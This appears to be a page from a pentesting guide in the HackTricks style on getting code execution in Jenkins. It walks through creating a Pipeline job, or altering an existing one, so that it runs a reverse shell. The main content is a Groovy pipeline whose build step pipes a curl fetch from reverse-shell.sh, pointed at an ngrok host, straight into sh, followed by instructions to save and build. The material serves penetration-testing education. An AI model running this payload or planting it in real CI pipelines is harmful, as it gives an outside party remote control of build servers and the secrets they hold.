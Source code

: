 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creating a new Pipeline

In "New Item" (accessible in `/view/all/newJob`) select **Pipeline:**

![](<../../images/image (235).png>)

In the **Pipeline section** write the **reverse shell**:

![](<../../images/image (285).png>)

```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
                '''
            }
        }
    }
}
```

Finally click on **Save**, and **Build Now** and the pipeline will be executed:

![](<../../images/image (228).png>)

## Modifying a Pipeline

If you can access the configuration file of some pipeline configured you could just **modify it appending your reverse shell** and then execute it or wait until it gets executed.

{{#include ../../banners/hacktricks-training.md}}




